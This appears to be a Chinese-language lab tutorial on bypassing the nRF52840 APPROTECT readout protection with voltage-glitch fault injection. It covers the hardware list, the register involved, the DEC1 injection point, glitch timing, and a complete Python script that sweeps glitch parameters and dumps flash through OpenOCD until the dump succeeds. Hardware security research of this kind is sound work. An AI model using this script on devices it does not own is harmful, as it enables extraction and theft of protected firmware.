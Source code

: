 # 相关工具及环境



## 推荐硬件设备清单

- nRF52840 QIAAD0 开发板（USB Dongle）
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- FlexHolder 柔性探针台
- Jlink 调试器
- 杜邦线若干



## 软件清单

- [Jlink 软件及驱动](https://www.segger.com/downloads/jlink/)
- [nRF-Command-Line-Tools](https://www.nordicsemi.com/Products/Development-tools/nRF-Command-Line-Tools)
- [openocd](https://github.com/xpack-dev-tools/openocd-xpack/releases)
- [Pico 示波器软件](https://www.picotech.com/downloads)
- [zadig](https://zadig.akeo.ie/)

------

# APPROTECT 介绍与开启

nRF52 系列芯片为保护开发者固件不被非法读取，提供了 APPRTOECT 固件读保护机制，开启读保护后无法使用 SWD 接口读取芯片内的固件



## 开启保护方法

先使用 Jlink 连接 目标 SWD 接口

| USB Dongle | **Jlink** |
| ---------- | --------- |
| VDD        | VT/VREF   |
| GND        | GND       |
| SWCLK      | TCK/SWCLK |
| SWDIO      | TMS/SWDIO |

![image-20241210113020427](./img/image-20241210113020427.png)

使用官方命令行工具（nRF-Command-Line-Tools）执行如下命令，对开发板重新上电复位后生效：

```
nrfjprog -f nRF52 --memwr 0x10001208 --val 0xFFFFFF00
```



再次连接芯片已无法查看 Flash

![image-20241210105012402](./img/image-20241210105012402.png)



## 解除保护方法

不管是 Jflash 还是官方命令行工具都提供解除保护的功能（代价是清除芯片内固件，以达到保护固件不被非法读取的目的）

JFlash 软件在探测到保护开启时直接点击 Yes 即可解除保护

![image-20241210105116600](./img/image-20241210105116600.png)

官方命令行工具提供 ```nrfjprog -f NRF52 --recover``` 命令解除保护



## APPROTECT 介绍

通过阅读[芯片手册第 42 页](https://infocenter.nordicsemi.com/pdf/nRF52840_PS_v1.2.pdf)可以得知：APPROTECT 寄存器位于 0x10001208 默认值 0xFF 表示关闭保护，若写为 0x00 则表示开启保护，因此官方工具开启保护实际是将该寄存器写为了 0x00

芯片上电后会读取该寄存器的值，若为 0x00 则配置保护机制，不允许通过 SWD 接口访问芯片内固件，因此我们可以在芯片上电时对其进行故障注入，绕过该配置流程，使得调试接口保持开启状态

------

# 故障注入绕过 APPROTECT 读保护



## 电压毛刺注入物理位置：CPU 核心供电

电压故障注入攻击点位于芯片附近的一颗小电容的右侧，该点连接到芯片 DEC1 引脚（电容左侧通过万用表可测得为 GND）

![image-20241210105935824](./img/image-20241210105935824.png)



## 电压毛刺注入时间位置

使用示波器以 DEC1 上升沿作为触发，观察 DEC1 处电压波形，可以看到存在一个小的电压下降沿，压降大约 100~200mv，毛刺就打在这个小下降沿附近

![image-20241210110057903](./img/image-20241210110057903.png)



## 故障注入时遇到的问题

1、如何控制设备重启

​	答：通过 PowerShorter 设备的 GPIO 为 Dongle 供电，Python 代码控制 GPIO

2、打哪个地方的电压、如何打

​	答：打 DEC1；短接 DEC1 和 GND 使其电压短暂拉低

3、什么时候打故障

​	答：以 GPIO 供电上升沿作为触发，设置延时，故障打在 DEC1 下降沿附近

4、怎么判断是否打成功了

​	答：openocd 连接 SWD 读取固件，dump 成功则故障注入成功（注：Openocd 调用 jlink 需要使用 zadig 软件安装 winusb 驱动）



**配合 Flex Holder 柔性探针台可以免去焊接，直接将小电容右侧的 DEC1 引脚引出**

![image-20241210110621643](./img/image-20241210110621643.png)

![image-20241210110628584](./img/image-20241210110628584.png)



## 硬件接线参考

![image-20241210113346327](./img/image-20241210113346327.png)



## 成功波形参考

A 通道(蓝色波形)为供电电压；B 通道(红色波形)为 DEC1 电压

DEC1 的下降沿位置恰好被故障毛刺命中，不再表现为下降沿，但并不是没有下降沿就为成功

![image-20241210110739940](./img/image-20241210110739940.png)



## 攻击脚本参考

**推荐使用 Jupyter Lab 进行实验**

导入 Python 库

```
from power_shorter import *
import time, os, random, subprocess
import serial
import faultviz
```

初始化设备

```
ps_dev = PowerShorter('com55')
```

测试设备上下电

```
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
```

初始化 faultviz 服务与表单

```
faultviz.start_view_service(port=12345) 
vt = faultviz.ViewWidget()
```

定义攻击函数

```
def nrf52_attack():
    ps_dev.gpio(GPIO.GPIO1, 0)
    time.sleep(1)
    glitch_delay = random.randint(158500, 158700) # 设置毛刺延迟范围
    glitch_pulse = random.randint(100, 300)       # 设置毛刺宽度范围
    ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE)    # 设置毛刺延时及宽度
    ps_dev.arm(Engine.E1)        # 激活毛刺
    ps_dev.gpio(GPIO.GPIO1, 1)   # 设备上电
    time.sleep(0.5)              # 延迟一段时间 等待攻击完成
    s = ps_dev.state(Engine.E1)  # 检查毛刺状态
    if s == "glitched":
        res, result = subprocess.getstatusoutput('openocd -f interface/jlink.cfg -c "transport select swd" -f target/nrf52.cfg -c "init;dump_image nrf_flash.bin 0x0 0x10000;exit"')  # 通过 OpenOCD dump 固件，若成功则表示已绕过 APPROTECT
        if "Could not find MEM-AP to control the core" in result:
            status = "Normal"
        elif "No J-Link device found" in result:
            status = "No Jlink"
        elif res == 0:
            status = "Success"
        else:
            status = "Unknown"
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = result, res = res)  # 更新故障结果到表单
        return res
    else:
        print("no trigger")
```

执行一次攻击函数，检查代码是否有问题

```
nrf52_attack()
```

查看表单，检查刚才的攻击是否将结果添加到表单中

```
vt.show()
```

写个循环，直到成功绕过 APPROTECT 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置

```
doAttack = 1
while(doAttack):
    doAttack = nrf52_attack()
```



